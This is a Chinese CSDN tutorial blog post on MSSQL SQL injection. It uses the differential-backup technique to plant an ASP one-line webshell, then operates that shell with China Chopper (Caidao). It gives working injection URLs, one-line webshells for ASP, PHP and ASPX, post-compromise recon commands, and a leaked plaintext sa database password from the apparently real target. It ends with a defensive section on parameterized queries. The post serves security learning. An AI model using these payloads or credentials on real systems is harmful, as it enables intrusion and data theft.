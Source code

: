 
# [渗透&攻防] 三.数据库之差异备份及Caidao利器 - 杨秀璋的专栏 - CSDN博客

2017年07月23日 00:50:07[Eastmount](https://me.csdn.net/Eastmount)阅读数：2583标签：[网络安全																](https://so.csdn.net/so/search/s.do?q=网络安全&t=blog)[渗透																](https://so.csdn.net/so/search/s.do?q=渗透&t=blog)[差异备份																](https://so.csdn.net/so/search/s.do?q=差异备份&t=blog)[Caidao																](https://so.csdn.net/so/search/s.do?q=Caidao&t=blog)[数据库																](https://so.csdn.net/so/search/s.do?q=数据库&t=blog)[
							](https://so.csdn.net/so/search/s.do?q=Caidao&t=blog)[
																					](https://so.csdn.net/so/search/s.do?q=差异备份&t=blog)个人分类：[渗透&攻防																](https://blog.csdn.net/Eastmount/article/category/7023911)
[
																								](https://so.csdn.net/so/search/s.do?q=差异备份&t=blog)
[
				](https://so.csdn.net/so/search/s.do?q=渗透&t=blog)
[
			](https://so.csdn.net/so/search/s.do?q=渗透&t=blog)
[
		](https://so.csdn.net/so/search/s.do?q=网络安全&t=blog)

这是最近学习渗透和网站攻防的文章，前面文章从数据库原理解读了防止SQL注入、SQLMAP的基础用法。这篇文章主要讲解数据库知识之差异备份及强大的利器Caidao。希望能深入地学习这部分知识，自己作为一个初学者，在慢慢探索网络攻防和渗透。同时，希望文章对你有所帮助，尤其是学习网络安全的初学者，错误或不足之处还请海涵~
一.数据库之差异备份
1.差异备份
2.手动上传
二.Caidao基础用法
1.文件管理
2.数据库管理
3.虚拟终端
三.防御措施
1.参数化查询
2.基础防御措施
前文欣赏：
[[渗透&攻防] 一.从数据库原理学习网络攻防及防止SQL注入](http://blog.csdn.net/eastmount/article/details/75000575)
[[渗透&攻防] 二.SQL MAP工具从零解读数据库及基础用法](http://blog.csdn.net/Eastmount/article/details/75269811)

推荐文章：
[http://www.jianshu.com/p/f0797a485779](http://www.jianshu.com/p/f0797a485779)
[SQL参数化查询 - zyw_anquan](http://blog.csdn.net/zyw_anquan/article/details/22178821)

## 一. 数据库之差异备份
**1.差异备份**
数据备份主要分位完全备份、增量备份和差异备份。其中差异备份是指备份自上一次完全备份之后有变化的数据，在差异备份过程中，只备份有标记的那些选中的文件和文件夹。它不清除标记，即备份后不标记为已备份文件，不清除存档属性。
这里的整体流程是先备份日志，然后插入一句话Muma；再次备份时，数据库只会备份两次间隔中的差异，使得生成出来的文件尽可能小，故称为“差异备份”。
前面的文章获取了数据库的名称：
http://xxxxx/show.asp?code=-1**'**union all
select 1,null,3,null,null,6,host_name(),@@version,db_name(),10 --
输出结果如下所示：
附件1：AYD
附件2：Microsoft SQL Server....
附件3：ahykd_new
其中MSSQL数据库的名称就是ahykd_new，接下来相同的道理获取数据库所有表及列。
同时获取了登录名、密码等，这里不再介绍，下面详细介绍差异备份。

**(1) 修改数据库设置为恢复模式**
http://xxxxx/show.asp?code=-1**'**
**alter database ahykd_new set RECOVERY FULL --**
完全恢复模式是默认的恢复模式。在完全恢复模式下，需要手工的对事务日志进行管理，优点是可以恢复到数据库失败或者指定的时间点上。
**(2) 备份当前数据库日志到文件**
http://xxxxx/show.asp?code=-1**'**
**backup log ahykd_new to disk='C:\windows\temp\temp0720' with init --**
备份数据库日志到服务器上，其中路径表示服务器的。
重点：路径不能太显眼，比如"C:\0720"这样。
**(3) 建立一张表和一个字段**
http://xxxxx/show.asp?code=-1**'**
**create table tt(a text)--**
**(4) 往表中插入一句话Muma**
http://xxxxx/show.asp?code=-1**'**
**insert into tt(a) values('<%eval request("Shsh") %>') --**
一句话Muma插入到数据库tt表的a字段中，执行接收自定义Shsh参数，类似于URL的Code参数，相当于是一个侧门，第二部分Caidao会使用到。

```python
asp：
　　 <%execute(request("value"))%>
php：
　　 <?php @eval($_POST[value]);?>
aspx：
　　 <%eval(Request.Item["value"])%>
```
**(5) 再次备份日志**
http://xxxxx/show.asp?code=-1**'**
**backup log ahykd_new to disk='e:\NewsReport\index0.asp' --**
再次备份日志，备份路径为网站服务器路径，重点是如何获得这个路径呢？在网站注入时，报错提示通常会呈现相关文件路径。
**(6) 删除表**
http://xxxxx/show.asp?code=-1**'**
**drop table tt --**
此时，数据库差异备份的漏洞已经弄好，后面介绍Caidao利器。

**2.手动上传**
前面得到数据库登录的用户名和密码后，就可以手动登录，然后找到上传文件地方。
index0.asp文件代码为：<%eval request("Shsh") %>
然后利用Caidao利器可以进行拿站，问题是如何防御这些漏洞，请看第三部分内容。


## 二. Caidao基础用法
**1.登录Caidao**
首先关闭安全软件及实时防护，如下图所示。

![](https://img-blog.csdn.net/20170720203117087)
Caidao软件据说是一个桂林退役士兵写的，真的很厉害。它是一款Webshell管理工具，支持各种语言，常见的包括ASP、ASPX、PHP、JSP、CFM等，后面希望自己也能深入研究攻防底层内容，打开Caidao如下图所示。

![](https://img-blog.csdn.net/20170720203507800)
右键空白处，点击“添加”，在弹出界面填写相关内容。
![](https://img-blog.csdn.net/20170720203949124)
重点：Caidao的用户名为上传的文件，即index_0.asp，注意路径；密码为一句话Muma中插入的参数Shsh，对应前文<%eval request("Shsh") %>，选择ASP网站类型，点击“添加按钮”。
如果漏洞被修复，Caidao也会有相应的提示，如下提示服务器错误。
![](https://img-blog.csdn.net/20170720204956405)
下面介绍它强大的三个功能文件管理、数据库管理和虚拟终端，右键URL如下。

![](https://img-blog.csdn.net/20170720204730366)
PS：由于前面网站的漏洞已经修复了，网站攻防重点是从漏洞中找到防御措施，但它也打乱了我前后文的关联，但也是我Web防御的初衷。下面有两张图片引用文章[Chopper详细剖析](http://www.360doc.com/content/15/0204/01/597197_446101789.shtml)，推荐大家阅读，图侵立删。
**2.文件管理**
网站文件管理，显示服务器Webshell，远程访问服务显示wwwroot如下图所示。包括了常见的上传、下载、编辑、删除、复制重命名及改变文件时间戳等。
![](https://img-blog.csdn.net/20170722232411147?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvRWFzdG1vdW50/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

前面的差异备份，我们通过SQL语句在服务器E盘上传了一个index0.asp文件。
backup log ahykd_new to disk='e:\NewsReport\index0.asp
可以在文件管理找到该文件，并下载到本地（因原网已修复，写文前未截图），可以通过Notepad++打开，虽然乱码很多，但可以搜索看到 <%eval request("Shsh") %> 这句代码。同时，备份服务器该账户没有写入权限，只能查看网站的内容及代码等。

**3.数据库管理**
Caidao支持各种数据库，包括MYSQL、MSSQL、ORCALE、ACCESS等，数据库管理主要是内置的管理数据库模块，能够实现数据库的查询语句、显示表名、列名。
前提：需要知道数据库的配置信息，可以从两个方面获得。
(1) 前面两篇文章通过SQL语句已经查到了数据库配置信息，即：
数据库 用户 密码
回顾：第一篇 手工SQL注入方法

```python
http://xxxxx/show.asp?code=-1' union all 
select 1,null,3,null,null,6,host_name(),@@version,db_name(),10 --  
输出结果如下所示：
    附件1：AYD
    附件2：Microsoft SQL Server....
    附件3：ahykd_new
其中数据库的名称就是ahykd_new，接下来相同的道理获取数据库所有表及列。
```
回顾：第二篇 SQLMAP方法
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --current-db
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --passwords
运行结果如下图所示，获取数据库用户和密码。
![](https://img-blog.csdn.net/20170717225556128)
(2) 文件管理中可以找到config配置文件，E盘index0.asp中即有，下载如下。
```python
<add key="ConnectionString" 
     value="Data Source=(local);DataBase=ahykd_new;User Id=sa;Password=xbs660818"/>
```
即：数据库ahykd_new，用户名sa，密码xbs660818。
Caidao中右键“数据库管理”，在弹出的界面设置数据库信息，点击“提交”。
![](https://img-blog.csdn.net/20170722235731999)
显示数据库如下所示：

![](https://img-blog.csdn.net/20170723000343753)
同时可以在顶端下拉菜单自定义SQL语句，点击“执行”获取所需信息。

**4.虚拟终端**
虚拟终端是模拟Windows下的CMD命令窗口，如果服务器是Linux就是shell窗口。如下图所示，常见命令：
(1) whoami 查看当前用户的权限；
(2) net user 查看当前计算机上的用户；
(3) net localgroup administrators 查看当前计算机上管理员的用户；
(4) ipconfig 查看计算机的网卡ip等信息，详细信息在后面加个 /all 查看；
(5) dir 查看当前目录的文件，后加个路径可查看目标文件夹的文件 dir c: \；

![](https://img-blog.csdn.net/20170723001320676)
更多的用法需要读者进一步取研究学习，包括原理知识。同时，难点是如何取找到漏洞、防御漏洞，SQL注入现在已经有很多好的防御措施了，第三部分接着介绍。


## 三. 防御措施
**1.参数化查询**
推荐阅读《SQL注入攻击与防御 第2版》作者：Justin Clarke。
PS：这部分参考网上，你可能也返现了这些列文字主要是攻击，防御是让它变白，后面几个月深入研究后会结合实际详细讲解，但还是推荐上面那本书。
参数化查询（Parameterized Query 或 Parameterized Statement）是指在设计与数据库链接并访问数据时，在需要填入数值或数据的地方，使用参数 (Parameter) 来给值，这个方法目前已被视为最有效可预防SQL注入攻击 (SQL Injection) 的攻击手法的防御方式。
有部份的开发人员可能会认为使用参数化查询，会让程序更不好维护，或者在实现部份功能上会非常不便，然而，使用参数化查询造成的额外开发成本，通常都远低于因为SQL注入攻击漏洞被发现而遭受攻击，所造成的重大损失。
原理：在使用参数化查询的情况下，数据库服务器不会将参数的内容视为SQL指令的一部份来处理，而是在数据库完成 SQL 指令的编译后，才套用参数运行，因此就算参数中含有具有损的指令，也不会被数据库所运行。
下面一段引用大神[何静媛](http://blog.csdn.net/hejingyuan6/article/details/8726457)的博客，强推大家阅读她的博客。
*参数化查询就是我们写好需要的参数，然后直接给参数赋值，这就好比是一个sql的框架。sql查询的时候会进行参数分析，如果分析的结果是我们曾使用过这样的框架，那么sql会重用查询计划，否则会重新生成一个查询计划，当然此时的sql的语义肯定是发生了变化，这时我们就可以很好的防止注入的发生。例如：*

![](https://img-my.csdn.net/uploads/201303/27/1364365891_4582.png)
*如上的代码就是使用参数化的查询语句，尝试输入注入字符无结果。*
在撰写 SQL 指令时，利用参数来代表需要填入的数值，例如：
(1) Microsoft SQL Server
Microsoft SQL Server 的参数格式是以 "@" 字符加上参数名称而成，SQL Server 亦支持匿名参数 "?"。
```python
SELECT * FROM myTable WHERE myID = @myID
INSERT INTO myTable (c1, c2, c3, c4) VALUES (@c1, @c2, @c3, @c4)
```
(2) MySQL
MySQL的参数格式是以 "?" 字符加上参数名称而成。
```python
UPDATE myTable SET c1 = ?c1, c2 = ?c2, c3 = ?c3 WHERE c4 = ?c4
```
(3) Oracle
Oracle 的参数格式是以 ":" 字符加上参数名称而成。
```python
UPDATE myTable SET c1 = :c1, c2 = :c2, c3 = :c3 WHERE c4 = :c4
```
(4) PostgreSQL
PostgreSQL 的参数格式是以 "$" 字符加上参数顺序号而成。
```python
UPDATE myTable SET c1 = $1, c2 = $2, c3 = $3 WHERE c4 = $4
```

**2.基础防御措施**
参考前文，个人理解的防御措施：
1.在URL设置不允许非法字符，如单引号、等号、注释--、减号，提示非法参数；
2.在URL设置不允许SQL常见的关键词，如and、select、or、insert等；
3.传递的id=115参数必须为数字才能正常跳转，否则跳转错误；
4.服务器启用SQL注入拦截功能，提示当前网页的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火墙拦截，因为可能通过POST、Cookies进行攻击，各方面都需要做到防御。
5.可以使用JS在客户端进行不安全字符屏蔽，也可以在jsp中调用该函数检查是否包函非法字符，或使用正则表达式过滤传入的参数，防止SQL从URL注入。
希望文章对你有所帮助，尤其是网络安全的程序员，因为系列文章是和前文息息相关的，所以看着有些凌乱。如果文章存在错误或不足之处，还请海涵。感谢娜师傅的一路陪伴，来娜娜家玩深夜都还在写文，我也是很醉啊！
不忘初心，继续前行。加油，秀璋。绿妖，晚安！
(By:Eastmount 2017-07-23 凌晨1点[http://blog.csdn.net/eastmount/](http://blog.csdn.net/eastmount/))


